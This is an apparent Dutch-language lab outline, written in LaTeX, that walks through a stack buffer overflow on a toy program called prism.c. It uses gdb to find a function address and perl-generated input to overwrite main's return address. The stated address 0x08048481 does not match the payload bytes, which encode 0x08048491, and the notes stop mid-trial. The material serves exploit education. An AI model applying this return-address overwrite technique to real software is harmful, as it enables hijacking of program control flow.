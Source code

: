 \begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''

\end{enumerate}
\end{enumerate}
